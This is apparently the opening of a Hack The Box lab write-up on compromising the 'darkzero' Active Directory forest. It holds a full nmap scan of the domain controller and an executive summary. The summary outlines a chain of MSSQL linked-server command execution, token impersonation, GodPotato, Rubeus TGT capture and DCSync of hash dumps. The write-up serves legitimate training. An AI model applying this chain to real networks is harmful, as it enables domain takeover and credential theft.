**Target:**   `10.129.72.112`
**Domain:**   `darkzero.htb` (linked forest: `darkzero.ext`)
**Date:**     September 2026
**Platform:** Hackthebox
## Executive Summary
This report documents the full compromise of the `darkzero.htb` Active Directory environment, reached by pivoting through the trusted `darkzero.ext` domain via an exposed MSSQL linked server. Starting from low-privileged domain credentials (`john.w`), enumeration showed SMB and LDAP signing enforced ruling out NTLM relay and coercion but MSSQL access on DC01 exposed a linked server to DC02 executing under the `dc01_sql_svc` context. Command execution against that linked server produced a reverse shell on DC02 as the `svc_sql` service account. Although the service account's privileges had been stripped at logon, James Forshaw's RPCSS logon-session-sharing technique (via the NtObjectManager module) was used to impersonate a token from the shared service logon session and restore the account's full privilege set, including `SeImpersonatePrivilege`. GodPotato then abused that privilege to gain SYSTEM on DC02, fully compromising the `darkzero.ext` domain. Because domain controllers are trusted for unconstrained delegation by default, running Rubeus in monitor mode on the now-controlled DC02 captured a forwardable TGT for the `DC01$` machine account. That ticket was converted to a credential cache and used to DCSync DC01, extracting the `krbtgt` and Administrator NTLM hashes and granting full Domain Admin over `darkzero.htb`.
#### Nmap Scan

```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes]
└─$ sudo nmap 10.129.72.112 -p- -Pn -A -T4 -vv
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-09-16 01:01:53Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: darkzero.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.darkzero.htb
| Issuer: commonName=darkzero-DC01-CA/domainComponent=darkzero
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-09-16T00:45:30
| Not valid after:  2027-09-16T00:45:30
| MD5:     f21d 664c 6373 26b3 1968 43bf 4a05 b0eb
| SHA-1:   28a0 6173 71ba 6531 efae b3dd 5d05 fde9 0bbf a475
| SHA-256: 06ba a677 2c66 8c44 4f8a 666b 217e b63b 01af 10bb 9cca 87aa 6864 2dfa 7c5a 9bb7
| -----BEGIN CERTIFICATE-----
| MIIHOjCCBSKgAwIBAgITUgAAAAtRWRXqCSL3cwABAAAACzANBgkqhkiG9w0BAQsF
| ADBKMRMwEQYKCZImiZPyLGQBGRYDaHRiMRgwFgYKCZImiZPyLGQBGRYIZGFya3pl
| cm8xGTAXBgNVBAMTEGRhcmt6ZXJvLURDMDEtQ0EwHhcNMjYwOTE2MDA0NTMwWhcN
| MjcwOTE2MDA0NTMwWjAcMRowGAYDVQQDExFEQzAxLmRhcmt6ZXJvLmh0YjCCASIw
| DQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAL9w/ivfeLtIMl6OpnvLxULddbyt
| GO35o4y5kcQyIN35xt2Nde2zYzxEMSuiWPM/fkznsgX0koQ1bNVqjXwRBm6HM3b4
| ftDl/hXBn6EjWusoF0e1ggZS/xbhRPNI1r62zJZMKCEAHmZJmlwYgD8TciVT9rcX
| 374GJUvH9it04wEwIAwo/kMmDIW/c2DSqnycRmLtO2W2B03fP2sPlc9GozTQPUqc
| FGBUH3CA5WxE5/uFHm9shXclemlUSet4c6K0ROgDyaEZv+3U3C/LpLAho7HfYUnp
| KT8jmiinxkyA958cemc+UyrtBoqyOzFiRGJi4fK4JNZWYawYd4X557bPHr0CAwEA
| AaOCA0UwggNBMC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdABy
| AG8AbABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0P
| AQH/BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqG
| SIb3DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQB
| AjALBglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFIoX
| YhwWHEh6p+SquJLZMFJLw7KHMB8GA1UdIwQYMBaAFN4cOQ6+di/Vf1JIXScbM9yD
| xyrbMIHPBgNVHR8EgccwgcQwgcGggb6ggbuGgbhsZGFwOi8vL0NOPWRhcmt6ZXJv
| LURDMDEtQ0EoMSksQ049REMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vy
| dmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1kYXJremVybyxE
| Qz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNz
| PWNSTERpc3RyaWJ1dGlvblBvaW50MIHDBggrBgEFBQcBAQSBtjCBszCBsAYIKwYB
| BQUHMAKGgaNsZGFwOi8vL0NOPWRhcmt6ZXJvLURDMDEtQ0EsQ049QUlBLENOPVB1
| YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRp
| b24sREM9ZGFya3plcm8sREM9aHRiP2NBQ2VydGlmaWNhdGU/YmFzZT9vYmplY3RD
| bGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MD0GA1UdEQQ2MDSgHwYJKwYBBAGC
| NxkBoBIEEOfsqvw66j9ItSxN2uPjJRqCEURDMDEuZGFya3plcm8uaHRiME4GCSsG
| AQQBgjcZAgRBMD+gPQYKKwYBBAGCNxkCAaAvBC1TLTEtNS0yMS0xMTUyMTc5OTM1
| LTU4OTEwODE4MC0xOTg5ODkyNDYzLTEwMDAwDQYJKoZIhvcNAQELBQADggIBANJG
| 5wIDHj6rWJdDEaSRfAUNYzzCc+/TzoLywMwskZl9VxbXGxaH48dmgNy/yJZTZZ/R
| m9OecaLRSyeHWXa4gxl9IW+QNJ1YZnNgsNJx51kfLR4BqcO7YRDLUZfHrZaAKua+
| EHa1M86vOBw2OjwxjmXk5IoqBiY1TYz4UCQC72XJG8QaO/Vytq0/EWh2mhrS8JFG
| gw67AT3aWgZ7PYPqFdGr7U52Ye2Wtsrb6It1ezYsPPZg7UFUbRTktau8PB/woaK9
| ftIBxq3U2qYdb9Zrws1XsNRy8D1fG9dplNKMTadByo9OMoT47/kCxZ8dmZQg5wQw
| 9gR4Vmn4tyXtlesMXF8h/ZRAJTGUQ7xVHcR1063kwpvF48PIg7TME+FnhVLPoUm1
| StZIIoDUUjB21rO+f5FCkxykTwpc7D7xwRChRiCkn8SZQxn4YGoHT52CmjoHsvBd
| n87g4BfARJE7Ss2ypuWnf7cIexTtY4EqIJ68PJyZJZQI1/M1ORHuVy5ImYPVjAG0
| L41yDr1GvNALOLqpyzDIqtBdmvZYYPXC0WV792QlpyzT7a6ioNfZ3mYlTdZk/JHB
| XCWUDbwO/1+LpLdR417FSSZ4ROed5rnrrY5jCqAeQgDQ6xH62HZKpuo0W0+Tzz3N
| DG7d5We5r3zsTCIN1D3hHPaHm7BsTnOBaRyJAYwZ
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: darkzero.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.darkzero.htb
| Issuer: commonName=darkzero-DC01-CA/domainComponent=darkzero
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-09-16T00:45:30
| Not valid after:  2027-09-16T00:45:30
| MD5:     f21d 664c 6373 26b3 1968 43bf 4a05 b0eb
| SHA-1:   28a0 6173 71ba 6531 efae b3dd 5d05 fde9 0bbf a475
| SHA-256: 06ba a677 2c66 8c44 4f8a 666b 217e b63b 01af 10bb 9cca 87aa 6864 2dfa 7c5a 9bb7
| -----BEGIN CERTIFICATE-----
| MIIHOjCCBSKgAwIBAgITUgAAAAtRWRXqCSL3cwABAAAACzANBgkqhkiG9w0BAQsF
| ADBKMRMwEQYKCZImiZPyLGQBGRYDaHRiMRgwFgYKCZImiZPyLGQBGRYIZGFya3pl
| cm8xGTAXBgNVBAMTEGRhcmt6ZXJvLURDMDEtQ0EwHhcNMjYwOTE2MDA0NTMwWhcN
| MjcwOTE2MDA0NTMwWjAcMRowGAYDVQQDExFEQzAxLmRhcmt6ZXJvLmh0YjCCASIw
| DQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAL9w/ivfeLtIMl6OpnvLxULddbyt
| GO35o4y5kcQyIN35xt2Nde2zYzxEMSuiWPM/fkznsgX0koQ1bNVqjXwRBm6HM3b4
| ftDl/hXBn6EjWusoF0e1ggZS/xbhRPNI1r62zJZMKCEAHmZJmlwYgD8TciVT9rcX
| 374GJUvH9it04wEwIAwo/kMmDIW/c2DSqnycRmLtO2W2B03fP2sPlc9GozTQPUqc
| FGBUH3CA5WxE5/uFHm9shXclemlUSet4c6K0ROgDyaEZv+3U3C/LpLAho7HfYUnp
| KT8jmiinxkyA958cemc+UyrtBoqyOzFiRGJi4fK4JNZWYawYd4X557bPHr0CAwEA
| AaOCA0UwggNBMC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdABy
| AG8AbABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0P
| AQH/BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqG
| SIb3DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQB
| AjALBglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFIoX
| YhwWHEh6p+SquJLZMFJLw7KHMB8GA1UdIwQYMBaAFN4cOQ6+di/Vf1JIXScbM9yD
| xyrbMIHPBgNVHR8EgccwgcQwgcGggb6ggbuGgbhsZGFwOi8vL0NOPWRhcmt6ZXJv
| LURDMDEtQ0EoMSksQ049REMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vy
| dmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1kYXJremVybyxE
| Qz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNz
| PWNSTERpc3RyaWJ1dGlvblBvaW50MIHDBggrBgEFBQcBAQSBtjCBszCBsAYIKwYB
| BQUHMAKGgaNsZGFwOi8vL0NOPWRhcmt6ZXJvLURDMDEtQ0EsQ049QUlBLENOPVB1
| YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRp
| b24sREM9ZGFya3plcm8sREM9aHRiP2NBQ2VydGlmaWNhdGU/YmFzZT9vYmplY3RD
| bGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MD0GA1UdEQQ2MDSgHwYJKwYBBAGC
| NxkBoBIEEOfsqvw66j9ItSxN2uPjJRqCEURDMDEuZGFya3plcm8uaHRiME4GCSsG
| AQQBgjcZAgRBMD+gPQYKKwYBBAGCNxkCAaAvBC1TLTEtNS0yMS0xMTUyMTc5OTM1
| LTU4OTEwODE4MC0xOTg5ODkyNDYzLTEwMDAwDQYJKoZIhvcNAQELBQADggIBANJG
| 5wIDHj6rWJdDEaSRfAUNYzzCc+/TzoLywMwskZl9VxbXGxaH48dmgNy/yJZTZZ/R
| m9OecaLRSyeHWXa4gxl9IW+QNJ1YZnNgsNJx51kfLR4BqcO7YRDLUZfHrZaAKua+
| EHa1M86vOBw2OjwxjmXk5IoqBiY1TYz4UCQC72XJG8QaO/Vytq0/EWh2mhrS8JFG
| gw67AT3aWgZ7PYPqFdGr7U52Ye2Wtsrb6It1ezYsPPZg7UFUbRTktau8PB/woaK9
| ftIBxq3U2qYdb9Zrws1XsNRy8D1fG9dplNKMTadByo9OMoT47/kCxZ8dmZQg5wQw
| 9gR4Vmn4tyXtlesMXF8h/ZRAJTGUQ7xVHcR1063kwpvF48PIg7TME+FnhVLPoUm1
| StZIIoDUUjB21rO+f5FCkxykTwpc7D7xwRChRiCkn8SZQxn4YGoHT52CmjoHsvBd
| n87g4BfARJE7Ss2ypuWnf7cIexTtY4EqIJ68PJyZJZQI1/M1ORHuVy5ImYPVjAG0
| L41yDr1GvNALOLqpyzDIqtBdmvZYYPXC0WV792QlpyzT7a6ioNfZ3mYlTdZk/JHB
| XCWUDbwO/1+LpLdR417FSSZ4ROed5rnrrY5jCqAeQgDQ6xH62HZKpuo0W0+Tzz3N
| DG7d5We5r3zsTCIN1D3hHPaHm7BsTnOBaRyJAYwZ
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
1433/tcp  open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2022 16.00.1000.00; RTM
| ms-sql-info: 
|   10.129.72.112:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-09-16T00:56:50
| Not valid after:  2056-09-16T00:56:50
| MD5:     8a52 a28a 6610 274e b816 5e48 245a 96c8
| SHA-1:   63f3 14f7 7f94 8cf2 ef89 d71c de2a 8da5 f0e0 a7e4
| SHA-256: 2557 8094 9ca1 5a91 5197 e278 5dd3 2bf0 d2e7 4098 3620 2d54 ee99 8f8c 1601 f46b
| -----BEGIN CERTIFICATE-----
| MIIEADCCAmigAwIBAgIQL7dMI6K07YFHoTHZuZ6kqzANBgkqhkiG9w0BAQsFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjYwOTE2MDA1NjUwWhgPMjA1NjA5MTYwMDU2NTBaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCCAaIwDQYJKoZIhvcNAQEBBQADggGPADCCAYoCggGBAKSR7/h4
| Xf+oK+AQ8RRH/OXW2UQJ42sip+PbkrKnUSGfjv4VQCguqNwnPuqaR5TnNpypYzsD
| AMuFpRaXJ3FI3ma/+YcGRRJLdlmcI01mZt3xo4qwpsaiP3QTKLWvXhezUzOoxyfn
| Jo2t6jkr3zYr8Xb58bcKQpMmUaFvLX8nfSc3s82f4c6DZC6QM/p9BID9+hSD4eNu
| 3mtCg3lh44katau7WTncQM9OlBfn/HN39puI7D45DLy3mpb7VPFzdeUGkqQn/F5F
| Y6yuN/BbQGZWF9NXOtrduSXScEAq/gSvjdHW70L1n45edWznrCHdK4XJmKvxb73b
| twM5GQovLNQxMp1D8IG+milKc9tixnSRXw5PMCZHfCWjQXoh0GsQgvy1P0/jl1jD
| Q8mtlFqi7GBCg1bFqBJteDtJctFMTc0siubdRUJtYcE6LJVyUdfupQyYZzD69sBY
| IgL9ggH0wulnA66vnDHxQ+Os4C38wCmQZyABtC8OWSea+qrZ4oRKrNCniQIDAQAB
| MA0GCSqGSIb3DQEBCwUAA4IBgQA8MLCXTzvfdpUebgcZ7aj5kilMGuQTdhcq1/Yk
| baGG3G/eUZ/t3XdFPd4kTkfG1P2SM+VQ1sEryNMGADlQHbSMr+0Tp5slspTixRqe
| iC2fykDaJPNTsVyXm+za7SAlH4+tHJdcp/id/V/kin+7FxXkCyecNZwapH5NhIDw
| G8yqlyOjcx9MWWwApb1yMxmiJMzYXA1vJBCwt0dOPdNGDzOfPsK5+EJAlcFKzMJ8
| KrhUaaMHnQAH/6Vpe90yXEpbQsjOcpH0hHueZWaKOs5asZP5vbroQ0+aEHG3rOo/
| BqqGiUNI9fU44X0hmGNNMBjXiFuCjYz4FVXnseZisviKZULXPLmCQZKZhGb2ZIzy
| ARI3TRjtBT5aLhMh3xmvmz6KOjHQw853NfAOaun//7qLuzk0N2D6XuGWd7jqTfAa
| CY57kVngbWPyLdwGl+CWrYGlNR3w+ZKNFy91lTsW0nsH5U232d8/ab6AdP3f8jVi
| bw0b9myvd0IcdgNYE670NkDJNoM=
|_-----END CERTIFICATE-----
|_ssl-date: 2026-09-16T01:03:27+00:00; -1s from scanner time.
| ms-sql-ntlm-info: 
|   10.129.72.112:1433: 
|     Target_Name: darkzero
|     NetBIOS_Domain_Name: darkzero
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: darkzero.htb
|     DNS_Computer_Name: DC01.darkzero.htb
|     DNS_Tree_Name: darkzero.htb
|_    Product_Version: 10.0.26100
2179/tcp  open  vmrdp?        syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: darkzero.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.darkzero.htb
| Issuer: commonName=darkzero-DC01-CA/domainComponent=darkzero
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-09-16T00:45:30
| Not valid after:  2027-09-16T00:45:30
| MD5:     f21d 664c 6373 26b3 1968 43bf 4a05 b0eb
| SHA-1:   28a0 6173 71ba 6531 efae b3dd 5d05 fde9 0bbf a475
| SHA-256: 06ba a677 2c66 8c44 4f8a 666b 217e b63b 01af 10bb 9cca 87aa 6864 2dfa 7c5a 9bb7
| -----BEGIN CERTIFICATE-----
| MIIHOjCCBSKgAwIBAgITUgAAAAtRWRXqCSL3cwABAAAACzANBgkqhkiG9w0BAQsF
| ADBKMRMwEQYKCZImiZPyLGQBGRYDaHRiMRgwFgYKCZImiZPyLGQBGRYIZGFya3pl
| cm8xGTAXBgNVBAMTEGRhcmt6ZXJvLURDMDEtQ0EwHhcNMjYwOTE2MDA0NTMwWhcN
| MjcwOTE2MDA0NTMwWjAcMRowGAYDVQQDExFEQzAxLmRhcmt6ZXJvLmh0YjCCASIw
| DQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAL9w/ivfeLtIMl6OpnvLxULddbyt
| GO35o4y5kcQyIN35xt2Nde2zYzxEMSuiWPM/fkznsgX0koQ1bNVqjXwRBm6HM3b4
| ftDl/hXBn6EjWusoF0e1ggZS/xbhRPNI1r62zJZMKCEAHmZJmlwYgD8TciVT9rcX
| 374GJUvH9it04wEwIAwo/kMmDIW/c2DSqnycRmLtO2W2B03fP2sPlc9GozTQPUqc
| FGBUH3CA5WxE5/uFHm9shXclemlUSet4c6K0ROgDyaEZv+3U3C/LpLAho7HfYUnp
| KT8jmiinxkyA958cemc+UyrtBoqyOzFiRGJi4fK4JNZWYawYd4X557bPHr0CAwEA
| AaOCA0UwggNBMC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdABy
| AG8AbABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0P
| AQH/BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqG
| SIb3DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQB
| AjALBglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFIoX
| YhwWHEh6p+SquJLZMFJLw7KHMB8GA1UdIwQYMBaAFN4cOQ6+di/Vf1JIXScbM9yD
| xyrbMIHPBgNVHR8EgccwgcQwgcGggb6ggbuGgbhsZGFwOi8vL0NOPWRhcmt6ZXJv
| LURDMDEtQ0EoMSksQ049REMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vy
| dmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1kYXJremVybyxE
| Qz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNz
| PWNSTERpc3RyaWJ1dGlvblBvaW50MIHDBggrBgEFBQcBAQSBtjCBszCBsAYIKwYB
| BQUHMAKGgaNsZGFwOi8vL0NOPWRhcmt6ZXJvLURDMDEtQ0EsQ049QUlBLENOPVB1
| YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRp
| b24sREM9ZGFya3plcm8sREM9aHRiP2NBQ2VydGlmaWNhdGU/YmFzZT9vYmplY3RD
| bGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MD0GA1UdEQQ2MDSgHwYJKwYBBAGC
| NxkBoBIEEOfsqvw66j9ItSxN2uPjJRqCEURDMDEuZGFya3plcm8uaHRiME4GCSsG
| AQQBgjcZAgRBMD+gPQYKKwYBBAGCNxkCAaAvBC1TLTEtNS0yMS0xMTUyMTc5OTM1
| LTU4OTEwODE4MC0xOTg5ODkyNDYzLTEwMDAwDQYJKoZIhvcNAQELBQADggIBANJG
| 5wIDHj6rWJdDEaSRfAUNYzzCc+/TzoLywMwskZl9VxbXGxaH48dmgNy/yJZTZZ/R
| m9OecaLRSyeHWXa4gxl9IW+QNJ1YZnNgsNJx51kfLR4BqcO7YRDLUZfHrZaAKua+
| EHa1M86vOBw2OjwxjmXk5IoqBiY1TYz4UCQC72XJG8QaO/Vytq0/EWh2mhrS8JFG
| gw67AT3aWgZ7PYPqFdGr7U52Ye2Wtsrb6It1ezYsPPZg7UFUbRTktau8PB/woaK9
| ftIBxq3U2qYdb9Zrws1XsNRy8D1fG9dplNKMTadByo9OMoT47/kCxZ8dmZQg5wQw
| 9gR4Vmn4tyXtlesMXF8h/ZRAJTGUQ7xVHcR1063kwpvF48PIg7TME+FnhVLPoUm1
| StZIIoDUUjB21rO+f5FCkxykTwpc7D7xwRChRiCkn8SZQxn4YGoHT52CmjoHsvBd
| n87g4BfARJE7Ss2ypuWnf7cIexTtY4EqIJ68PJyZJZQI1/M1ORHuVy5ImYPVjAG0
| L41yDr1GvNALOLqpyzDIqtBdmvZYYPXC0WV792QlpyzT7a6ioNfZ3mYlTdZk/JHB
| XCWUDbwO/1+LpLdR417FSSZ4ROed5rnrrY5jCqAeQgDQ6xH62HZKpuo0W0+Tzz3N
| DG7d5We5r3zsTCIN1D3hHPaHm7BsTnOBaRyJAYwZ
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: darkzero.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.darkzero.htb
| Issuer: commonName=darkzero-DC01-CA/domainComponent=darkzero
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-09-16T00:45:30
| Not valid after:  2027-09-16T00:45:30
| MD5:     f21d 664c 6373 26b3 1968 43bf 4a05 b0eb
| SHA-1:   28a0 6173 71ba 6531 efae b3dd 5d05 fde9 0bbf a475
| SHA-256: 06ba a677 2c66 8c44 4f8a 666b 217e b63b 01af 10bb 9cca 87aa 6864 2dfa 7c5a 9bb7
| -----BEGIN CERTIFICATE-----
| MIIHOjCCBSKgAwIBAgITUgAAAAtRWRXqCSL3cwABAAAACzANBgkqhkiG9w0BAQsF
| ADBKMRMwEQYKCZImiZPyLGQBGRYDaHRiMRgwFgYKCZImiZPyLGQBGRYIZGFya3pl
| cm8xGTAXBgNVBAMTEGRhcmt6ZXJvLURDMDEtQ0EwHhcNMjYwOTE2MDA0NTMwWhcN
| MjcwOTE2MDA0NTMwWjAcMRowGAYDVQQDExFEQzAxLmRhcmt6ZXJvLmh0YjCCASIw
| DQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAL9w/ivfeLtIMl6OpnvLxULddbyt
| GO35o4y5kcQyIN35xt2Nde2zYzxEMSuiWPM/fkznsgX0koQ1bNVqjXwRBm6HM3b4
| ftDl/hXBn6EjWusoF0e1ggZS/xbhRPNI1r62zJZMKCEAHmZJmlwYgD8TciVT9rcX
| 374GJUvH9it04wEwIAwo/kMmDIW/c2DSqnycRmLtO2W2B03fP2sPlc9GozTQPUqc
| FGBUH3CA5WxE5/uFHm9shXclemlUSet4c6K0ROgDyaEZv+3U3C/LpLAho7HfYUnp
| KT8jmiinxkyA958cemc+UyrtBoqyOzFiRGJi4fK4JNZWYawYd4X557bPHr0CAwEA
| AaOCA0UwggNBMC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdABy
| AG8AbABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0P
| AQH/BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqG
| SIb3DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQB
| AjALBglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFIoX
| YhwWHEh6p+SquJLZMFJLw7KHMB8GA1UdIwQYMBaAFN4cOQ6+di/Vf1JIXScbM9yD
| xyrbMIHPBgNVHR8EgccwgcQwgcGggb6ggbuGgbhsZGFwOi8vL0NOPWRhcmt6ZXJv
| LURDMDEtQ0EoMSksQ049REMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vy
| dmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1kYXJremVybyxE
| Qz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNz
| PWNSTERpc3RyaWJ1dGlvblBvaW50MIHDBggrBgEFBQcBAQSBtjCBszCBsAYIKwYB
| BQUHMAKGgaNsZGFwOi8vL0NOPWRhcmt6ZXJvLURDMDEtQ0EsQ049QUlBLENOPVB1
| YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRp
| b24sREM9ZGFya3plcm8sREM9aHRiP2NBQ2VydGlmaWNhdGU/YmFzZT9vYmplY3RD
| bGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MD0GA1UdEQQ2MDSgHwYJKwYBBAGC
| NxkBoBIEEOfsqvw66j9ItSxN2uPjJRqCEURDMDEuZGFya3plcm8uaHRiME4GCSsG
| AQQBgjcZAgRBMD+gPQYKKwYBBAGCNxkCAaAvBC1TLTEtNS0yMS0xMTUyMTc5OTM1
| LTU4OTEwODE4MC0xOTg5ODkyNDYzLTEwMDAwDQYJKoZIhvcNAQELBQADggIBANJG
| 5wIDHj6rWJdDEaSRfAUNYzzCc+/TzoLywMwskZl9VxbXGxaH48dmgNy/yJZTZZ/R
| m9OecaLRSyeHWXa4gxl9IW+QNJ1YZnNgsNJx51kfLR4BqcO7YRDLUZfHrZaAKua+
| EHa1M86vOBw2OjwxjmXk5IoqBiY1TYz4UCQC72XJG8QaO/Vytq0/EWh2mhrS8JFG
| gw67AT3aWgZ7PYPqFdGr7U52Ye2Wtsrb6It1ezYsPPZg7UFUbRTktau8PB/woaK9
| ftIBxq3U2qYdb9Zrws1XsNRy8D1fG9dplNKMTadByo9OMoT47/kCxZ8dmZQg5wQw
| 9gR4Vmn4tyXtlesMXF8h/ZRAJTGUQ7xVHcR1063kwpvF48PIg7TME+FnhVLPoUm1
| StZIIoDUUjB21rO+f5FCkxykTwpc7D7xwRChRiCkn8SZQxn4YGoHT52CmjoHsvBd
| n87g4BfARJE7Ss2ypuWnf7cIexTtY4EqIJ68PJyZJZQI1/M1ORHuVy5ImYPVjAG0
| L41yDr1GvNALOLqpyzDIqtBdmvZYYPXC0WV792QlpyzT7a6ioNfZ3mYlTdZk/JHB
| XCWUDbwO/1+LpLdR417FSSZ4ROed5rnrrY5jCqAeQgDQ6xH62HZKpuo0W0+Tzz3N
| DG7d5We5r3zsTCIN1D3hHPaHm7BsTnOBaRyJAYwZ
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49676/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49897/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
